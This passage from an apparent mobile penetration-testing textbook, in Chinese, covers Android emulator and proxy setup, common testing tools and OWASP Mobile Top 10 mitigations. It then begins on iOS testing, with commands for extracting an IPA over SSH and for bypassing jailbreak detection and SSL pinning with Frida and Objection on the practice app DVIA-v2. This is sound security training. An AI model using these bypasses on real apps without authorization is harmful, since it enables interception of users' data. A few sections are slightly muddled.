例如，如果你运行 `ADB shell monkey 2`，它将注入事件 ID 2 并在没有用户界面的情况下启动应用程序。请参阅*图 10.28*：


**图 10.28：** ADB shell monkey 命令

### Genymotion

Genymotion 是随 Android SDK 附带的 **Android 虚拟设备** (**AVD**) 管理器的替代品。本书的 Android 评估部分将全程使用它。只有在你创建了他们的云账户并按照 **[`www.genymotion.com/#!/download`](https://www.genymotion.com/#!/download)** 的步骤操作后，才能下载 Genymotion。有两种不同类型的许可证：

1.  **个人用途**：此版本的 Genymotion 运行模拟的可能性受到限制。
2.  **商业用途：** 此版本的 Genymotion 为开发人员提供了额外功能，包括网络调试、设计模拟和自动化。

由于 Genymotion 相比 Android SDK 的模拟器具有卓越的性能（即使启用了 Intel 硬件加速执行管理器），测试人员和开发人员更倾向于将其作为模拟器使用。然而，这并不能替代 Android SDK 的 AVD。

安装 Genymotion 的分步说明如下：

1.  下载完成后双击该程序，将出现一个窗口向导，如*图 10.29*所示：

    

    **图 10.29：** Genymotion 安装 _1

2.  选择“下一步”，我们将进入下一个*图 10.30*，在那里我们可以选择要安装此应用程序的文件夹。在我们的场景中，所有应用程序都将安装在 `C:/` 驱动器中。请参阅*图 10.30*：

    

    **图 10.30：** Genymotion 安装 _2

3.  确认后开始安装，如*图 10.31*所示：

    

    **图 10.31：** Genymotion 安装 _3

4.  Genymotion 使用 Oracle VirtualBox 来执行模拟器，因此即使前端软件（即 Genymotion）被卸载，系统映像仍保留在虚拟盒中。如果你下载的 Genymotion 不包含 VirtualBox，*图 10.32*将不适用于你：

    

    **图 10.32：** Genymotion 安装 _4

5.  如*图 10.33*所示，我们下载的 Genymotion 文件包含预编译版 Oracle Virtual Box 的安装包：

    

    **图 10.33：** Oracle Virtual Box 安装

6.  点击 `Next` 将强制你安装 VirtualBox，这将占用一些空间。

7.  Oracle VirtualBox 安装完成后，Genymotion 也随之安装完毕，我们已准备好构建第一个 Android 虚拟镜像。请参阅*图 10.34*：

    

    **图 10.34：** Genymotion 安装 _5

### 创建 Android 虚拟模拟器

现在我们已经设置好 Genymotion 和 Oracle VirtualBox，将继续创建一个新的 Android 虚拟模拟器，我们将用它来运行各种测试。在 Genymotion 中设置模拟器的步骤如下：

1.  首次运行 Genymotion 时，你将看到一个使用须知弹窗，随后会弹出一个构建虚拟设备的提示，如*图 10.35*所示：

    

    **图 10.35：** Genymotion

2.  选择 `Yes`，下一个选项将引导我们进入 Genymotion 云账户，如*图 10.36*所示：

    

    **图 10.36：** Genymotion 云账户

3.  登录后，我们可以查看所有可用的 Android 镜像，然后点击 `Next`。

4.  选择 `Following`，我们将进入下一步，输入我们将创建的模拟器的名称。在本例中，我们将其命名为 Google Nexus—Penetration Testing Device，如*图 10.37*所示：

    

    **图 10.37：** Genymotion Google Nexus 设备

5.  由于 Genymotion 使用基于硬件的加速，我们可能需要在安装过程中配置多个处理器。如下面的*图 10.38*所示，我们在基本设置中使用一个处理器：

    

    **图 10.38：** Genymotion 设备设置

6.  现在我们已经通过按下 `Start` 完成了第一个 Android 虚拟模拟器的设置，可以使用该设备了。

7.  最后，我们的虚拟设备应该可见，如*图 10.39*所示：

    

    **图 10.39：** Genymotion 设备启动

可以使用 `ADB devices` 命令来确认这一点，如*图 10.40*所示：


**图 10.40：** ADB devices 命令

在某些情况下，如*图 10.41*所示，我们可能会收到错误消息触发，这可以通过在 BIOS 中启用 Intel 虚拟化技术或 Intel VT-x 来解决：


**图 10.41：** 虚拟化技术消息

### 将应用程序安装到 Genymotion 模拟器

将应用程序安装到模拟器可以通过两种方式之一完成：要么通过下载，要么使用 ADB 安装开发人员制作的应用：`ADB install appname.apk`。

你也可以直接将 APK 文件拖放到模拟器中，如*图 10.42*所示：


**图 10.42：** 拖放 APK 文件

### 将 Genymotion 插件安装到 Android Studio

如果应用开发人员在 Android Studio 中编写代码，却无法使用 Android 模拟器立即测试他们的应用，这确实很有挑战性。相反，用户最终不得不在每次签名后安装软件。

必须采取以下操作以在 Android Studio 中启用 Genymotion VM：

1.  导航到 `Android Studio`。转到 `Settings` 并选择 `Plugins`。


#### 2. 安装 Genymotion 插件

在如下屏幕截图中，找到 `genymotion`，右键点击它，然后选择 `Download and Install`。请参阅 图 10.43：


**图 10.43：** Genymotion 插件

#### 3. 配置 Genymotion 路径

再次启动 Android Studio。Android Studio 已安装 Genymotion 设备管理器。为了使启动应用程序更加容易，请通过转到 `File` | `Settings` | `Other Settings` | `Genymotion` 将应用程序路径设置为 Genymotion，如 图 10.44 所示：


**图 10.44：** Genymotion 插件设置

#### 4. 验证安装

Genymotion 设备管理器现已成功安装。我们已准备好在设备上创建并启动应用程序。请参阅 图 10.45：


**图 10.45：** Genymotion 设备管理器

### Genymotion 中的 ARM 应用和 Play Store

只有基于 ARM 的硬件才能执行某些应用程序。我们可以通过从 <https://docs.google.com/file/d/0B-p1r5SNN4adcmhtaGdMVml0Qzg/edit> 获取 ARM 转换包来添加特定的软件包以解决此问题，从而防止应用崩溃，这些应用尤其会用到这些 ARM 架构。

正如你在 图 10.46 中所见，只需将 ZIP 文件拖放到模拟器上即可。此外，请记住，捆绑包将根据 Android 平台的不同而有所差异。请参阅 图 10.46：


**图 10.46：** 拖放 zip 文件

为此，我们必须从 <https://www.androidfilehost.com?fid=95784891001614559> 下载 `gapps-lp-20141109-signed.zip` 文件，然后将其拖放到虚拟设备上以安装 Google Play Store。

安装完这两个应用后，重启设备，你应该能看到 Play Store 已安装在我们的 Genymotion 模拟器中，如 图 10.47 所示：


**图 10.47：** 安装 Google Play Store

得益于模拟器上提供了 Play Store，我们可以浏览商店中所有兼容的应用。如果你正在进行黑盒分析，这将非常有帮助。

### 为 HTTP 代理配置模拟器

这里我们假设两种测试情况：第一，通过 Wi-Fi 连接的 Genymotion Android 模拟器；第二，连接互联网的 LTE/3G/2G 设备。即使在真实设备中，情况也是一样的。

在开始为模拟器配置代理之前，让我们看看可用的各种代理工具。这些工具包括但不限于以下内容：

*   **Burp Suite：** 大多数渗透测试人员选择的代理，可从 <https://portswigger.net/burp/download.html> 下载。它有两个版本：一个是免费的，另一个用于商业用途。商业版提供多种选项，包括扫描器等。
*   **Paros Proxy：** 这个基于 Java 的开源代理专门用于查找 Web 应用程序中的弱点。可从 <https://sourceforge.net/projects/paros/files/> 下载。由于更新不够及时，它已被 OWASP ZAP 取代。不过，你仍然可以将此代理作为备用。
*   **OWASP ZAP：** 这是一个开源的集成漏洞发现工具。可从 <https://github.com/zaproxy/zaproxy/wiki/Downloads> 下载。

还有其他一些工具可供调查，例如 Context Application Tool、ProxyFuzz、Odysseus proxy、Fiddler 等。

拦截设备与服务器之间数据流有两种方法：

*   在 Wi-Fi 设置中设置代理。
*   在移动运营商设置中设置代理。

#### 在 Wi-Fi 设置中设置代理

假设设备只能连接 Wi-Fi，没有使用 SIM 卡的能力：

1.  转到 `Settings` | `Wi-Fi` 并选择当前连接的 Wi-Fi。等待 30 秒后，继续查看 图 10.48 中所示的选项：

    

    **图 10.48：** Wi-Fi 设置

2.  导航至 `Modify Network` | `Advanced Option` | `Proxy` | `Manual`。

3.  输入代理的 IP 地址；在本例中，Burp Suite 在 `192.168.2.1` 的 `8080` 端口运行。请参阅 图 10.49：

    

    **图 10.49：** 代理 IP 地址和代理端口设置

4.  Wi-Fi 已成功设置为拦截代理。我们可以从 Burp Proxy 图 10.50 看到，我们可以窃听 HTTP Web 流量：

    

    **图 10.50：** Burp Suite

如果你希望设备可通过网络访问，可以通过打开 Oracle Virtual Box 并选择 `Name of the` `VM` | `Settings` | `Network` | `Adapter 2` | `Change the NAT to Bridged` 将设置更改为桥接模式。默认情况下，Genymotion 将 Oracle Virtual Box 中的网络适配器设置配置为 NAT。

#### 在移动运营商设置中设置代理

假设 Android 设备可以连接 Wi-Fi 和 SIM 卡：

1.  点击 `Settings` | `More` | `Cellular networks` | `APN` | 如 图 10.51 所示，选择要编辑的 APN：

    

    **图 10.51：** APN 设置

2.  设置代理的 IP 地址和端口号。

3.  你已将设备配置为连接到你的代理。

包括屏幕截图、电话选项、虚拟设备版本等在内的许多功能，在 Genymotion 免费个人版中均不可用。

## Android 渗透测试工具

有许多可用于 Android 渗透测试的工具，但让我们看看常用的前六个：

### 1. Android Debug Bridge (ADB)

**Android Debug Bridge (ADB)** 是一个用于与设备交互的命令行工具。该应用程序可以安装、调试、备份，并可以将数据推送到设备或从设备拉取数据，以及其他设备功能。请参阅 图 10.52：


**图 10.52：** ADB 工具

### 2. MobSF：移动安全框架

**移动安全框架** 是一个自动化的、一体化的移动应用渗透测试框架，可对运行在 Android、iOS 和 Windows 上的移动应用程序进行静态、动态和恶意软件分析。它支持二进制文件（APK、IPA 和 APPX）以及压缩的源代码，可用于 Android、iOS 和 Windows 移动应用程序的高效快速安全分析。此外，MobSF 还具有动态测试应用程序的能力，如 图 10.53 所示。MobSF 可从 <https://github.com/MobSF/Mobile-Security-Framework-MobSF> 下载：


**图 10.53：** MobSF 工具

### 3. Drozer

MWR Labs 创建了 Drozer，这是一个用于 Android 的全面安全和攻击框架。你可以与底层操作系统、Dalvik VM 以及其他程序员的 IPC 端点进行通信，如 图 10.54 所示。Drozer 可从 <https://github.com/FSecureLABS/drozer> 下载：


**图 10.54：** Drozer 工具


### 4. `d2j-dex2jar`

它是用于处理 Android `.dex` 和 `.jar` 文件的工具。这有助于将 `.dex` 文件转换为 `.class` 文件（压缩的 jar 文件），如图 10.55 所示。`d2j-dex2jar` 可从 **[`github.com/pxb1988/dex2jar`](https://github.com/pxb1988/dex2jar)** 下载：


**图 10.55：** `d2j-dex2jar` 工具

### 5. `JD-GUI`

`JD-GUI` 是一个独立的图形工具，用于显示类文件的 Java 源代码，如图 10.56 所示。`JD-GUI` 可从 **[`github.com/java-decompiler/jd-gui`](https://github.com/java-decompiler/jd-gui)** 下载：


**图 10.56：** `JD-GUI` 工具

### 6. `Objection`

基于 Frida 的 `Objection` 是一个运行时移动探索工具包，如图 10.57 所示。它旨在协助评估移动应用程序及其安全状况，且不需要越狱或 Root 过的移动设备。该工具的功能包括：

*   绕过 SSL Pinning 和 Root 检测
*   移除 Android Heap 和 Keystore
*   追踪 Android 上的复制/粘贴缓冲区缓存
*   Hook 一个或多个类的运行时方法
*   运行独特的 Frida 脚本
*   在必要时使用 Android Intents

可从 **[`github.com/sensepost/objection`](https://github.com/sensepost/objection)** 获取：


**图 10.57：** `Objection` 工具

## 保护 Android 应用程序

对于想要构建安全应用的开发者来说，OWASP Mobile Top 10 列表是一个极佳的参考。这是因为许多移动应用天然就面临安全漏洞。让我们考虑一下近几年发生的针对移动应用的几起攻击事件。例如 WhatsApp 的 Pegasus 间谍软件，它让攻击者能够访问用户的智能手机。另一个是针对 Pokémon Go 应用的攻击，该应用容易被想抓更多宝可梦的用户逆向工程。

包括 Tinder 和 MediaTek 在内的众多其他应用和企业，都经历过移动安全攻击。但为什么它们如此无防备？因为移动应用可以从公共商店下载且代码可被审查，所以它们比 Web 应用拥有更大的攻击面。加上它们能收集大量用户数据，这使我们成为黑客极具吸引力的目标。

OWASP Mobile Top 10 漏洞列出了在移动设备上发现的最普遍的安全弱点。但 OWASP 移动安全列表上具体列出了哪些漏洞？

## OWASP Mobile Top 10 漏洞

开放 Web 应用安全项目基金会基于全球社区收集的评论和调查数据，于 2011 年首次发布了 OWASP 移动安全风险。随后，又分别在 2014 年和 2016 年发布了新列表；后者是最近且最新的 OWASP Mobile Top 10 列表。

虽然 2016 年列表中有一项与 2014 年 Top 10 移动风险列表完全一致，但 2016 年列表的类别主要是不同的。例如，2016 年列表新增了两个风险，同时移除了 2014 年列表中的一项。此外，它们还将几个类别拆分为两个以分别处理。请参阅图 10.58：


**图 10.58：** OWASP 2014 和 2016 移动风险的并排对比

鉴于此，让我们来审视 2016 年最终选定的 10 大移动风险，并思考如何应对这些风险。

### 不当平台使用

在最新的 OWASP Mobile Top 10 排名中，不当平台使用位列首位。无论你使用 Android 还是 iOS，出于安全原因，每个平台都应遵循特定的开发标准。然而，应用可能会无意中违反这些最佳实践和既定建议，或在实现过程中出错。这一首要移动安全风险正是关注这一点。

利用 Android 或 iOS 操作系统的任何平台功能，或无视平台安全规则，均被视为威胁。这包括对移动操作系统组成部分的平台元素和安全控制的错误使用，例如：

*   通过滥用 iOS Touch ID 功能导致未经授权的设备访问。
*   错误使用 iOS Keychain，例如将会话密钥存储在应用的本地存储中。
*   请求过多或不正确的平台权限。
*   被标记为公开的 Android Intents 可能泄露敏感信息或允许未经授权的执行（用于从另一个应用组件请求操作）。

**针对该漏洞的修复措施：**

你需要在服务端处理此 OWASP 移动安全问题。除了遵循平台开发规范外，使用安全编码技术并在服务端实施适当的配置设置，可降低风险。以下是一些防止平台被滥用的额外缓解措施：

*   限制访问、实施限制性文件权限、防止应用之间相互交互等。
*   为 iOS Keychain 应用最严格的保护类，并遵循推荐实践以防止粗劣的控制实现。

### 不安全的数据存储

不安全的数据存储在 OWASP Mobile Top 10 列表中位居第二。你的移动设备可能丢失或被盗，落入敌手。或者攻击者可能利用在设备上运行、代表其行事的恶意软件，来利用漏洞泄露个人信息并访问敏感数据。

虽然并非总能创建不存储数据的应用，但必须安全地存储，且存放在其他应用或人员无法访问的位置。开发团队绝不能假设攻击者无法访问文件系统（如果文件系统随时可得）。越狱或 Root 移动设备足以绕过加密安全。

**针对该漏洞的修复措施：**

对应用进行威胁建模，以了解应用处理哪些信息资产以及 API 如何处理数据。通过这样做，你可以：

*   分析加密过程的有效性和加密密钥的安全性。
*   实施缓冲区溢出保护和混淆等技术，以强化代码防篡改能力。
*   尽可能避免缓存或存储数据。
*   实施可靠的授权和认证检查。

### 不安全的通信

在 2016 年 OWASP Mobile Top 10 列表中，不安全的通信位列第三。如果数据以明文未加密形式传输，任何监视网络的人都可以拦截并读取通过线路传输的所有信息。

客户端-服务端数据交换在移动应用中无处不在，这些数据必须通过设备的运营商网络和互联网安全传输。基站、代理、安装在设备上的间谍软件，或攻击者入侵你的 Wi-Fi，都可能拦截流量。那么，你能做些什么来降低此类数据交换涉及的风险？

**针对该漏洞的修复措施：**

*   使用行业标准加密技术和其他通用最佳实践，防止数据在网络传输过程中被窃取。
*   使用由信誉良好的**证书颁发机构**（**CA**）颁发的 SSL/TLS 证书，以保护所有通信通道。


如果发现不正确的 SSL/TLS 证书，或者证书链验证过程失败，请通知用户。

### 不安全的身份验证

OWASP 移动安全榜单中的下一个漏洞是不安全的身份验证。移动应用必须在允许访问前确认用户身份。执行身份验证绕过的常见方法是利用已知缺陷，例如移动应用后端服务器执行的服务请求验证故障。特别是在传输敏感数据（如银行信息）时，移动应用需要确认并维护用户身份。

**针对该漏洞的修复措施：**

攻击者可能利用移动应用身份验证系统中的漏洞。通过利用这些缺陷，他们可以绕过密码限制或获取更多权限，从而导致数据窃取和其他危害。

那么，你可以做些什么来阻止它？

*   不要使用本地身份验证技术。将此责任放在服务端，仅在成功认证后下载应用数据。
*   避免使用弱身份验证技术（如设备标识），避免在本地存储密码，使用 `multi-factor authentication` (`MFA`)，禁止使用完整的四位数 PIN 码作为密码，等等。

### 加密不足

系统的加密可能在以下两种情况下被破解，从而暴露敏感信息：

*   基础的加密和解密算法可能不安全，或者
*   加密过程本身存在实现问题。

导致移动应用加密失效的原因可能有多种。以下是一些可能的原因：

*   绕过代码中内置的加密技术，
*   数字密钥管理不当，以及
*   使用非标准或过时的加密技术。

**针对该漏洞的修复措施：**

不充分的加密保护可能导致未经授权访问存储在设备上的敏感数据（如用户个人信息）。

*   使用 `National Institute of Standards and Technology` (`NIST`) 推荐的强加密标准。
*   尽可能避免在设备上存储任何敏感信息。

### 不安全的授权

用户权限各不相同！虽然某些用户只需要基本权限和功能，但其他用户（如管理员用户）可能需要更多权限。糟糕的授权协议不会检查用户的身份或访问请求资源的权限。由于身份识别策略和授予用户的权限未得到有效执行，黑客能够以授权用户身份登录并发起权限提升攻击。

**针对该漏洞的修复措施：**

与不安全的身份验证类似，不安全的授权也会产生负面影响。两者都存在数据丢失、声誉受损以及潜在的合规罚款风险。

*   确保后端流程对每个请求都检查传入的与身份关联的标识符是否匹配，并真正属于该身份。
*   使用后端系统的数据来验证用户的角色和权限，而不仅仅依赖用户移动设备的数据。

### 客户端代码质量

OWASP 移动安全威胁清单的这一部分是针对由不良代码实现导致的移动客户端问题的统称。

攻击者可能会向应用内部的函数调用发送特制输入，试图运行它们或跟踪程序活动。这可能导致速度下降、内存消耗增加等。因为这些错误发生在移动客户端，与服务端发生的编码错误不同，所以必须在本地修复这些编码错误。移动应用可能包含代码级错误，导致以下问题：

*   格式化字符串漏洞。
*   缓冲区溢出。
*   与不安全的第三方库集成。
*   远程代码执行。

许多应用依赖第三方库来构建应用，这些库经常存在问题且未经过彻底测试。由于开发者不拥有这些代码，这些问题超出了开发者的控制范围。重写当前在设备上执行的部分代码是解决代码级问题的最常见方案。除此之外还能做什么？

**针对该漏洞的修复措施：**

代码质量差可能导致远程代码执行及其他我们已强调的漏洞和问题。幸运的是，你可以采取一些措施来减轻这些问题：

*   使用自动化工具检查内存泄漏、缓冲区溢出和其他问题。依赖源代码审查。编写清晰、文档完善的代码。
*   在整个组织中使用一致的编码模式。

### 代码篡改

修改版的移动应用偶尔会出现在应用商店中。修改版程序是指黑客更改二进制文件以添加有害代码、建立后门等。攻击者能够重新签名这些伪造应用，并将更新版本上传到其他应用商店。为了诱骗受害者下载软件，他们也可能通过钓鱼攻击直接将其发送给受害者。

**针对该漏洞的修复措施：**

修改代码可能导致财务损失、身份盗窃、声誉损害和其他问题。

*   如果代码被添加或修改，应用必须能够识别任何代码完整性违规，并在发生时做出适当响应。可以使用代码签名证书等工具通知用户代码变更。
*   利用防篡改技术，通过校验和、数字签名、代码加固和其他验证方法，禁用未经授权应用的执行。

### 逆向工程

攻击者可能会反编译并逆向工程应用以分析其源代码。这风险极大，因为攻击者可能理解、检查并编辑代码，以引入破坏性功能或传播垃圾广告。一旦他们基本了解软件运作方式，就可以使用 `IDA Pro`、`Hopper` 和其他二进制检查工具来编辑软件。一旦让软件按其意愿运行，他们就可以重新编译并发布。

**针对该漏洞的修复措施：**

必须使攻击者无法使用 `IDA Pro` 和 `Hopper` 等工具对代码进行反混淆，以防止逆向工程。

### 多余功能

移动应用开发者偶尔会错误地包含对用户界面隐藏的功能或后门。这些项目可能在生产环境中随一个本不该存在的功能一起投入使用，从而构成安全风险。

黑客通常无需普通用户协助即可利用这些系统缺陷。他们可能会查看配置文件、分析二进制文件等，以发现黑客可利用的后端系统功能来发起攻击。

**针对该漏洞的修复措施：**

手动安全代码审查是阻止此类移动应用漏洞的最佳方法之一。这使你能够：

*   检查移动应用的配置设置，查找任何隐藏开关。
*   确保日志不包含关于后端系统的过度信息性断言。

## 结论


阅读完本章后，读者将了解 Android 架构，学习如何搭建 Android 渗透测试环境并熟悉常用的 Android 渗透测试工具。最后，读者可以根据 OWASP TOP 10 学习如何保护他们的 Android 应用程序。在接下来的章节中，我们将了解作为另一种流行移动操作系统的 iOS 渗透测试。

## 问题

1.  列举 Android 架构中发现的四个原生库。

2.  列举 Android 架构中发现的两个原生应用程序。

3.  列举三个流行的 Android 渗透测试工具。

4.  列举 Android 适用的 OWASP Top 10 漏洞中的四个。

# 第 11 章

# iOS 渗透测试

## 简介

移动应用程序的渗透测试涉及 Android 和 iOS 这两个关键市场参与者。这两个操作系统都被广泛使用，并具有独特的功能。

在本章中，我们将研究 iOS 平台以及如何开始对 iOS 应用程序进行渗透测试。我们将首先回顾 iOS 应用程序的基础知识和一些关键信息，然后介绍必要的工具、实验室搭建以及一些简单的攻击。

虽然评估来自 iOS 应用程序的 API 请求类似于标准的 API 渗透测试程序。主要区别在于静态和动态功能分析、绕过既定限制、操纵功能以及其他令人惊叹的有趣事项。

## 结构

本章将涵盖以下主题：

*   iOS 应用程序基础

*   iOS 应用程序沙箱结构

*   易受攻击的应用程序

*   测试方法论

*   OWASP 移动端 Top 10

#### 目标

在本章中，您将能够了解 iOS 应用程序的基础知识，然后学习 iOS 应用程序沙箱结构并熟悉常用的 iOS 渗透测试工具。最后，您将学习 iOS 应用程序的测试方法论。

## iOS 应用程序基础

在开始 iOS 应用程序渗透测试之前，了解 iOS 平台、其内置安全功能和其他关键术语至关重要。现在，我们将以最简单、最快捷的方式介绍一些关键短语，然后建议进一步阅读以全面探讨它们。

## iOS 架构

iOS 系统的基本架构如*图 11.1*所示，其中使用多层来创建通信并在应用程序层和硬件层之间执行各种功能：


**图 11.1：** iOS 架构

让我们简要浏览一下其中的几层：

*   **Core OS（核心操作系统层）**：Core OS 层提供了许多低级功能，各种服务构建于此。这些包括 `Accelerate Framework`、`Directory Services`、`System Configuration`、`OpenCL` 等。

*   **Core Services（核心服务层）**：核心服务层在 Core OS 层提供的服务之上提供了抽象。这些服务通常包括 `Address Book`、`Social`、`Security`、`Webkit` 等。

*   **Media（媒体层）**：设备可以使用媒体层提供的各种媒体服务，这基本上使所有视听技术成为可能。它提供各种功能，如 `Core Image`、`Core Audio`、`Core Text` 等。

*   **Cocoa Touch（应用层）**：应用层也称为 Cocoa Touch 层。它是架构中的顶层，并暴露了多个 API 用于创建兼容 iPhone 的软件。

iOS 应用程序的文件扩展名为 `.IPA`。

## IPA 文件结构

首先，我们必须将 IPA 文件重命名为 `.zip` 扩展名，以便解压并分析其结构。解压后的内容如下：

*   `App binary`：包含编译后的（不可读的）应用程序源代码的可执行文件。

*   `Info.plist`：`info.plist` 文件使用一系列不同的特性向操作系统描述应用程序。在进行安全评估时，我们经常扫描此文件，因为它可能提供有价值的信息或指出一些配置错误。

*   `Frameworks`：动态库列表。

*   `Embedded.mobileprovsion`：这些是证书。

*   `Keychain`：应用程序可以将敏感信息保存在加密的钥匙串中，只有获得权限的其他应用程序才能访问。查看更多：[`developer.apple.com/documentation/security/keychainservices`](https://developer.apple.com/documentation/security/keychainservices)。

请参阅*图 11.2*：


**图 11.2：** IPA 文件结构

## iOS 应用程序沙箱结构

那么，应用程序安装在 iOS 上后是如何工作的？由于 Apple 的沙箱机制，应用程序可以在上述设备上创建本地数据库。它们因此与其他应用程序隔离开来。由于将有大量程序在设备硬盘上存储数据，iOS 为每个应用程序提供自己的沙箱以避免冲突。请参阅*图 11.3*：


**图 11.3：** iOS 中的沙箱机制

iOS 设备有三种不同类型的沙箱，如下所示：

*   **预装应用目录** — `/var/Application`

    此目录中保存着 iOS 设备上默认预装应用程序的应用文件。请参阅*图 11.4*：

    

    **图 11.4：** 预装应用程序

*   **Bundle 目录** — `/var/containers/Bundle/Application`

    `Bundle` 目录包含从 Apple App Store 下载的应用程序的所有文件，通常称为 `IPA Container`。也包括从其他地方下载的。此目录的内容不会随着应用程序版本的更改而改变。请参阅*图 11.5*：

    

    **图 11.5：** Bundle 目录应用程序

*   **Data 目录** — `/var/mobile/Containers/data/Application`

    开发者将想要保留的文件存储在 `Data` 目录中，也称为 `Local Data Storage Container`。这些是应用程序安装在设备上时与之相关的内容。可用作快速访问信息的缓存文件，或作为重新打开应用程序时使用的离线数据备份。请参阅*图 11.6*：

    

    **图 11.6：** Data 目录应用程序

## 越狱

移除公司强加于设备上的用户限制的过程称为“越狱”。必须了解的是，越狱会使设备保修失效。根据版本不同，存在不同的 iOS 越狱技术。一个根据 iOS 应用程序推荐越狱工具的有用网站是 [`canijailbreak.com`](https://canijailbreak.com)。值得注意的是，越狱可以在 Windows、Mac 或 Linux 系统上进行。此外，还有其他类别的越狱，描述如下：

*   **Untethered Jailbreak（完全越狱）**：永久越狱，设备重启后仍保持越狱状态。

*   **Tethered Jailbreak（不完全越狱）**：临时越狱，设备重启后将恢复到正常状态。

*   **Semi-tethered Jailbreak（半越狱）**：设备在半越狱后可以独立启动，但将不再拥有修补过的内核，无法执行修改后的代码。


### 半脱狱

由于它允许设备自行启动，半脱狱类似于完全脱狱。每次设备启动时，启动过程保持不变，并进入其默认的非越狱状态。然而，用户可以使用在其设备上运行的应用程序重新越狱其手机，而不像系绊越狱或半系绊越狱那样需要计算机。

越狱过程简单明了，耗时 2 到 5 分钟。以下工具可用于越狱特定的 iOS 版本。请参阅 **图 11.7**：


**图 11.7：** 越狱工具

**越狱为 iOS 15 版本提供了工具，更高版本的是 Zeon。您可以从 [`zeon-app.com/`](https://zeon-app.com/) 下载它以设置环境。**

本部分将介绍开始学习 iOS 应用程序所需的工具、脚本和应用程序。请注意，有许多工具和脚本可用。本文可能无法涵盖所有工具；因此，建议您独立调查每一个工具。

请注意，建议在物理设备上测试 iOS 应用程序。我使用各种 iPhone 7 和 iPhone 12 mini 设备。此外，请确保关闭自动更新，以防止在等待越狱时获取最新版本。

可通过访问 **[`www.corellium.com/`](https://www.corellium.com/)** 获取虚拟设备。

### 易受攻击的应用程序

使用以下易受攻击的应用程序，并按照提供的说明将它们安装在指定的存储库中：

*   **DVIA-v2**：**[`github.com/prateek147/DVIA-v2i`](https://github.com/prateek147/DVIA-v2i)**
*   **GOAT**：**[`github.com/OWASP/igoat`](https://github.com/OWASP/igoat)**。我们将使用 DVIA-v2 应用程序。

### 测试方法论

在对 iOS 应用程序进行渗透测试时，涉及多个要素。使用手动方法和 `MobSF` 等工具进行静态分析是其中之一。另一个要素涉及运行时利用，这意味着挂钩各种方法和对象以绕过障碍并获取敏感数据。最后测试应用程序生成的动态 API 调用，例如登录 API 请求等。

为了从 iOS 应用程序中提取 IPA，我们将首先使用 `MobSF` 对其运行静态分析。然后，我们将检查许多绕过技术，例如越狱检测绕过、SSL Pinning 绕过、本地认证绕过等。

### 提取 IPA

提取 IPA 文件有很多方法；然而，为了本文的目的，我们将使用 SSH。

提取 IPA 的步骤如下：

1.  SSH 连接到您的 iPhone：`ssh root@ip`（默认密码为 Alpine）
2.  转到此处列出的目录：`/var/containers/Bundle/Application`
3.  现在查找应用程序：`find | grep “app_name”`
4.  转到您的应用程序所在的文件夹：`cd <app_directory>`
5.  创建一个名为 `Payload` 的目录：`mkdir Payload`
6.  将数据传输到 `Payload` 目录：`cp -r <appname.app>/ Payload/`
7.  压缩 `Payload` 目录后将其格式化为 IPA 格式：`zip -r /var/root/<appname>.ipa Payload/`

### 使用 MobSF 运行静态分析

在提取 IPA 文件后进行 `MobSF` 静态分析。尽管您可以使用安装程序或任何其他可用的安装技术，但我们将使用 `MobSF` docker 选项。

*   **MobSF**：**[`github.com/MobSF/Mobile-Security-Framework-MobSF`](https://github.com/MobSF/Mobile-Security-Framework-MobSF)**
*   **MobSF 文档**：**[`mobsf.github.io/docs/#/`](https://mobsf.github.io/docs/#/)**

要执行静态分析，请遵循给定的步骤：

1.  运行 `MobSF` Web 界面
2.  拖放 IPA 文件并运行静态分析
3.  静态分析完成后，搜索配置错误，例如：

    1.  不安全的 URL Scheme，如 **图 11.8** 所示：

        

        **图 11.8：** 不安全的 URL Scheme

    2.  不安全的权限和 ATS 配置错误，如 **图 11.9** 所示：

        

        **图 11.9：** 不安全的权限

    3.  不安全的二进制选项，如 **图 11.10** 所示：

        

        **图 11.10：** 不安全的二进制选项

    4.  Firebase 数据库、硬编码信息和电子邮件，如 **图 11.11** 所示：

        

        **图 11.11：** Firebase 数据库、电子邮件和硬编码信息

    5.  其他有趣的文件，如 Assets、Resources、Debug Info、Native 和 Non-Native Libs。

### 设置代理

`Burp Suite` 的代理配置方法相当容易理解和实现。请遵循给定的步骤：

1.  在 `Wi-Fi 设置` 中，启用手动代理并输入代理信息，如 **图 11.12** 所示：

    

    **图 11.12：** Wi-Fi 设置

2.  转到 `Burp Suite` 中的 `代理设置` 并将监听器更改为 `所有接口`，如 **图 11.13** 所示：

    

    **图 11.13：** 代理设置

3.  现在，在 iPhone 上打开 `http://burp` 并下载 CA 证书。
4.  安装 CA 证书。
5.  现在，导航到 `设置` | `通用` | `关于本机` | `证书信任设置` 并启用 `Portswigger CA 证书`，如 **图 11.14** 所示：

    

    **图 11.14：** 代理证书

### 绕过越狱检测

对于此演示，我们将考虑使用 `Frida` 和 `Objection` 工具绕过越狱的多种选择。请记住设备的状态是已越狱，如 **图 11.15** 所示：


**图 11.15：** 设备已越狱

#### 使用 Frida

1.  在您的系统上运行以下命令：`frida — codeshare rodnt/ios-jailbreak-bypass -f DVIA-v2`。
2.  返回应用程序并选择 `Jailbreak 1`，然后注意越狱检测已被忽略，如 **图 11.16** 所示：

    

    **图 11.16：** 使用 Frida 设备显示未越狱

#### 使用 Objection

1.  在您的系统上运行以下命令，如 **图 11.17** 所示：

    ```
    objection -g DVIA-v2 explore
    ios jailbreak disable
    ```

    

    **图 11.17：** Objection 命令

2.  返回应用程序并选择 `Jailbreak 1`，然后注意越狱检测已被忽略，如 **图 11.18** 所示：

    

    **图 11.18：** 使用 Objection 设备显示未越狱

以下列表包括可用于避免越狱检测的各种工具：

*   **Liberty Lite**：**[`yalujailbreak.net/liberty-lite/`](https://yalujailbreak.net/liberty-lite/)**
*   **A-Bypass**：**[`repo.co.kr/package/com.rpgfarm.a-bypass`](https://repo.co.kr/package/com.rpgfarm.a-bypass)**

### 绕过 SSL Pinning

现在让我们看看如何使用各种方法绕过 SSL Pinning。

#### 使用 Objection

1.  在您的系统上运行以下命令，如 **图 11.19** 所示：

    ```
    objection -g DVIA-v2 explore
    ios sslpinning disable
    ```

    

    **图 11.19：** 使用 Objection 禁用 SSL Pinning


### 后续步骤

1.  进入程序，在 `Network Layer Security` 下选择 `Send Using Certificate Pinning`。

2.  请注意，通过避免 SSL Pinning 可以拦截数据。请参阅 *图 11.20*：

    

    **图 11.20：** 代理设置

以下列表包含可用于避免越狱检测的各种工具：

*   **Frida**: <https://codeshare.frida.re/>
*   **SSLKillSwitch2**: <https://github.com/nabla-c0d3/ssl-kill-switch2>

### 绕过生物识别（本地）认证

现在让我们看看如何使用各种方法绕过生物识别（本地）认证。

